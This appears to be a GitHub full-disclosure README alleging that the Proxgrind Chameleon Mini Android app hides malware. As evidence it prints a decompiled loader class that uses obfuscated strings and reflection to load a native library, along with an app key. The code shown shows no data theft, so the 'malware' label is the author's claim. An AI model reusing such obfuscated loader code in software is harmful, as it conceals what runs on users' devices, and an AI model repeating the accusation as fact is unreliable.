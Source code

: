 # ChameleonProxgrindAndroid-FullDisclosure

## Prior disclosure to the vendor

In accordance with the guidelines for reporting to BugTraq [here](https://www.securityfocus.com/archive/1/description#0.1.8), I will first point out that a clear detailed report of the problem in this vulnerability has been made to the [vendor's contact point](mailto:dennis@rfidresearchgroup.com). Their response after I gave them a clear window to respond was to make the following comments to me quickly:
>Re: Concerns with the Proxgrind Android app (com.proxgrind.chameleon)
>
>So what am I suppose to do or what can I do to help with your problem ?
>
>I think it is better you state your concerns and bulletin it so I can go to my CTO with a more details on your concerns and how we can achieve more together ?
With a lacking response now days after my initial point of contact email, I feel that it is pertinent to warn users of the malware they have unwittingly purchased and installed on their Android phones to control it. 

## The proxgrind series of Chameleon Mini devices

The [Chameleon Mini (RevG)](https://github.com/emsec/ChameleonMini) devices originally manufactured by Kasper and Oswald are an affordable entry point for many users into the NFC pentesting game. More recently, thanks to an [effort on KickStarter](https://www.indiegogo.com/projects/chameleonmini-rev-g-chameleontiny-by-proxgrind#/) a family of physically sturdier, cheaper and (mostly) Bluetooth enhanced port of these devices has been introduced into the NFC tools market under the Proxgrind Chameleon Mini label. These devices have from the get-go touted an [insane list of features](https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/docs/D-Appendix-ChameleonMiniAndChameleonTinyByProxGrind-Archived-2020.08.23-v1.pdf) and supported NFC tags for emulation, including premature claims about bidirectional sniffing and Mifare DESFire tag support.
The officially sanctioned [proxgrind firmware fork](https://github.com/RfidResearchGroup/ChameleonMini) has been known to be rife with [Bluetooth stack related issues](https://github.com/RfidResearchGroup/ChameleonMini/issues/12) from the onset of the first generation of their RevG replacement hardware. There is now another variant known as the [Proxgrind Tiny Professional](http://chameleontiny.com/product/chameleontiny-professional-with-bluetooth/) device that comes with Bluetooth enabled. In fact, per my recent testing, the unconnected battery-less tiny professional device can be observed as broadcasting a Bluetooth pairing request from more than 50 feet from the target host device. These Bluetooth-enabled devices have a default Android controller application listed on the 
[Google Play Store (com.proxgrind.chameleon)](https://play.google.com/store/apps/details?id=com.proxgrind.chameleon) [(store listing screenshot)](https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-062601.png). 

## The vulnerability (clear instance of malware), and how it was noticed

[my best attempts at BT (BLE) functionality](https://github.com/maxieds/ChameleonMiniLiveDebugger/blob/master/app/src/main/java/com/maxieds/chameleonminilivedebugger/BluetoothSerialInterface.java)

<img src="https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-081808.png" width="225" /><img src="https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-081814.png" width="225" /><img src="https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-081818.png" width="225" />

**(DtcLoader.java)**
```java
package com.qihoo.util;

import android.content.Context;

public class DtcLoader {
    static {
        try {
            System.loadLibrary("jgdtc");
        } catch (Throwable th) {
            System.load(m0());
        }
    }

    /* renamed from: ᵢˋ */
    private static String m0() {
        try {
            Class cls = Class.forName(C0002.m1("q~tbyt>q``>QsdyfydiDxbuqt"));
            return ((Context) cls.getDeclaredMethod(C0002.m1("wudCicdu}S~duhd"), null).invoke(cls.getDeclaredMethod(C0002.m1("sebbu~dQsdyfydiDxbuqt"), null).invoke(null, new Object[0]), new Object[0])).getPackageManager().getApplicationInfo("PACKAGENAME", 0).nativeLibraryDir + "/libjgdtc.so";
        } catch (Throwable th) {
            return "/data/data/PACKAGENAME/lib/libjgdtc.so";
        }
    }

    public static void init() {
    }
}
```
**(.appkey)**
```bash
126f4673b551a692
```

My opinion: proliferation by broken BLE stack and intentional supression of documentation for their devices... 

